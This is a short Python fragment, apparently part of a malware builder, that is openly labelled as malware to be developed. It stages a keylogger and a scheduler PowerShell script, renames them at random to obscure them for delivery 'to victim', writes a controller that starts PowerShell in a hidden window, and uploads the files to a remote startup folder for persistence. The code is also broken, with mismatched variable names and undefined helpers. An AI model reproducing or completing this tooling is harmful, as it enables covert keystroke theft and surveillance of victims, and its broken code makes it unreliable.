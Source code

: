 #section of the Malware to be developped
'''
     #path of files
    controller=f"{local_path}/payloads/controller.cmd"
    Keylogger=f"{local_path}/payloads/keylogger.ps1"
    schedular=f"{local_path}/payloads/scheduler.ps1"

    # obfuscation of the files to be ready to delivered to victim
    obfs_controller=random_text()+".cmd"
    obfs_keylogger=random_text()+".ps1"
    obfs_schedular=random_text()+".ps1"
    # building the controller
    with open(obfs_controller,"w") as f:
        f.write("@echo off")
        f.write(f"powershell Start-Process powershell.exe -windowstyle hidden {working_directory}")

    # file staging
    os.system(f"cp {controller} {local_path}/{obfs_controller}")
    os.system(f"cp {keylogger} {local_path}/{obfs_keylogger}")
    os.system(f"cp {schedular} {local_path}/{obfs_schedularr}")

    # upload the obfscuated keylogger
    remote_uplaod(address,password,obfs_controller,startup_directory)
    remote_uplaod(address,password,obfs_keylogger,working_directory)
    remote_uplaod(address,password,obfs_schedular,working_directory)



'''